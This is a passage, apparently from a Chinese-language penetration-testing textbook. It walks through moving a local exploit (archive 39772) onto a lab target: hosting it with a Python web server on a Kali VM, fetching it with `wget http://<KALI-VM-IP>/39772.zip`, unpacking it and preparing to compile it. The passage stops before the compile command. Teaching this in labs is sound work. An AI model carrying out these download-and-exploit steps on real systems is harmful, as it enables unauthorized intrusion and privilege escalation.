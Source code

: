 1.  下载漏洞文件后，我们需要将其传输到目标系统。这可以通过在 Kali 虚拟机上启动本地 Web 服务器，并使用 `SimpleHTTPServer` Python 模块来完成：

    `sudo python -m SimpleHTTPServer 80`

1.  要将二进制文件下载到目标系统，我们可以使用 `wget` 工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到临时目录，正如我们在前面章节中所做的那样。

1.  现在，我们可以使用 `wget` 工具将漏洞文件从 Kali 虚拟机下载到目标系统。这可以通过在目标系统上运行以下命令来完成：

    `wget http://<KALI-VM-IP>/39772.zip`

1.  将漏洞文件传输到目标系统后，我们需要解压该文件。可以通过运行以下命令来完成：

    `unzip 39772.zip`

    解压漏洞文件后，你将看到一个名为 `39772` 的目录。进入该目录后，可以看到以下文件：

    ![图 10.20 – 漏洞利用压缩包内容    ](img/B17389_10_020.jpg)

    图 10.20 – 漏洞利用压缩包内容

1.  现在，我们需要提取 `exploit.tar` 压缩包。可以通过运行以下命令来完成：

    `tar xf exploit.tar`

    在提取 `exploit.tar` 压缩包后，你将看到一个目录，如下图所示：

    ![图 10.21 – 漏洞利用目录    ](img/B17389_10_021.jpg)

    图 10.21 – 漏洞利用目录

    进入此目录后，会显示出一个编译脚本，执行后将生成漏洞利用二进制文件。

1.  我们可以通过运行以下命令来执行漏洞利用编译脚本：
